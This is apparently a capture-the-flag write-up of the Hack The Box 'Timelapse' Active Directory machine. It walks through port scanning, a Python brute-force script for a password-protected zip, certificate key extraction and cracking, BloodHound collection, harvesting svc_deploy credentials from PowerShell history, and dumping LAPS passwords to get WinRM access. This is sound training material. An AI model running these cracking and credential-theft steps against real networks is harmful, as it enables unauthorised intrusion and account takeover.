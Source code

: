 # x - Time lapse

Nmap scan to discover open ports and service versions.

```c
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE           REASON          VERSION
53/tcp    open  domain            syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec      syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-03-27 06:22:27Z)
135/tcp   open  msrpc             syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn       syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap              syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?     syn-ack ttl 127
464/tcp   open  kpasswd5?         syn-ack ttl 127
593/tcp   open  ncacn_http        syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?          syn-ack ttl 127
3268/tcp  open  ldap              syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl? syn-ack ttl 127
5986/tcp  open  ssl/http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf            syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc             syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  msrpc             syn-ack ttl 127 Microsoft Windows RPC
49674/tcp open  ncacn_http        syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc             syn-ack ttl 127 Microsoft Windows RPC
64488/tcp open  msrpc             syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Available shares without user:

![Untitled](Timelapse/Untitled.png)

In the shares folder there are more two folders that we can inspect.

![Untitled](Timelapse/Untitled%201.png)

Getting all the files from the share:

![Untitled](Timelapse/Untitled%202.png)

In the shares there is a zipfile called “winrm_backup.zip”, it’s protected with password and we need to perform brute-force to discover the password.

This script was used to perform the brute-force:

```c
import zipfile

f = open("/usr/share/wordlists/rockyou.txt", "rb")

zip = "winrm_backup.zip"
file = zipfile.ZipFile(zip)
	
for password in f:
	try:
		x = file.extractall(pwd=password[:-1])
		print(password)
	except:
		continu
```

The zip password is “supremelegacy”.

![Untitled](Timelapse/Untitled%203.png)

Inside the zip there is a certificate.

![Untitled](Timelapse/Untitled%204.png)

[https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file)

```c
openssl pkcs12 -in [yourfile.pfx] -nocerts -out [drlive.key]
```

With the PXF we also can perform brute-force to discover the certificate password to extract the keys:

![Untitled](Timelapse/Untitled%205.png)

```c
thuglegacy
```

After perform the crack of the file, we were able to authenticate in winrm using the certificate.

![Untitled](Timelapse/Untitled%206.png)

The sharphound was transferred to server with the main objective of collect data to input in bloodhound.

![Untitled](Timelapse/Untitled%207.png)

Getting the loot:

```c
Invoke-Bloodhound -CollectionMethod All -Domain Controller.local -ZipFileName loot.zip
```

Listing powershell command logs:

![Untitled](Timelapse/Untitled%208.png)

Reading the file:

![Untitled](Timelapse/Untitled%209.png)

```c
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl - 
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

```c
ldapdomaindump 10.10.11.152 -u "timelapse.htb\svc_deploy" -p 'E3R$Q62^12p7PLlC%KWaxuaV' --no-json
metasploit → enumlaps
```

[https://github.com/swisskyrepo/SharpLAPS](https://github.com/swisskyrepo/SharpLAPS)

![Untitled](Timelapse/Untitled%2010.png)

Using the obtained credentials with crackmapexec more the laps module we could obtain LAPS passwords.

![Untitled](Timelapse/Untitled%2011.png)

Get the session using the credentials in evil-winrm.

![Untitled](Timelapse/Untitled%2012.png)

After authentication the root flag was found.

![Untitled](Timelapse/Untitled%2013.png)